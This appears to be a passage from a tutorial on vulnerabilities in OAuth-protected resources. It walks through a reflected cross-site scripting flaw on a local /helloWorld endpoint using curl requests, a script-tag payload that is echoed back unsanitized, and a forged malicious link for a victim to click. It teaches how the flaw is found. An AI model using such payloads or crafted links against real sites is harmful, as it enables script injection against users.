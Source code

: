 Now let’s try hitting the /helloWorld endpoint by passing an invalid language:

```
> curl -v "http://localhost:9002/helloWorld?access_token=TOKEN&language=fi"
```

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 27
Date: Tue, 26 Jan 2016 16:25:00 GMT
Connection: keep-alive

Error, invalid language: fi
```

But as any bug hunter will notice, it seems that the error response of the `/helloWorld` endpoint is designed in a way that the erroneous input bounces back into the response. Let’s try to push this further and pass a nasty payload.

```
> curl -v "http://localhost:9002/helloWorld?access_token=TOKEN&language=<script>alert('XSS')</script>"
```

which will yield:

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 59
Date: Tue, 26 Jan 2016 17:02:16 GMT
Connection: keep-alive

Error, invalid language: <script>alert('XSS')</script>
```

As you can see, the provided payload is returned verbatim and unsanitized. At this point, the suspicion that this endpoint is susceptible to XSS is more than likely true, and the next step is pretty simple. In order to exploit this, an attacker would forge a malicious URI pointing to the protected resource:

```
http://localhost:9002/helloWorld?access_token=TOKEN&language=<script>alert('XSS')</script>
```

When the victim clicks on it, the attack is completed, forcing the JavaScript to execute:

<img src="https://github.com/KiraDiShira/OAuth2/blob/master/CommonProtectedResourcesVulnerabilities/Images/cprv1.PNG" />
